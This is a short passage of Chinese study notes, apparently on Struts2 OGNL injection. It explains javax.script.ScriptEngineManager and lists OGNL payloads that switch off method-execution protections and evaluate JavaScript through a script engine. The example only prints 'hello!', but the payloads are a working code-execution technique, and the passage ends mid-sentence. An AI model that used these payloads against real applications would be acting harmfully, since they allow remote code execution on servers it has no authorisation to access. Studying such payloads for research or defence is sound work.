   ![](./imgs/chop-18-003.png)
  ![](./imgs/chop-18-004.png)


### 19 = "javax.script.ScriptEngineManager"
* [参考 Doc](https://docs.oracle.com/en/java/javase/11/docs/api/java.scripting/javax/script/ScriptEngineManager.html)
* [参考 cnblogs](https://www.cnblogs.com/kanyun/p/16159710.html)
* [参考 CSDN](https://blog.csdn.net/qq_25255197/article/details/79072119)
* ScriptEngineManager 为 ScriptEngine 类实现发现和实例化机制
* 使用该类来执行 javascript 脚本
* payload
  ```js
  // high risk
  %{@javax.script.ScriptEngineManager}

  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new javax.script.ScriptEngineManager()}

  %{#a=new javax.script.ScriptEngineManager().getEngineByName().eval("println('hello!')")}
  ```
  第一句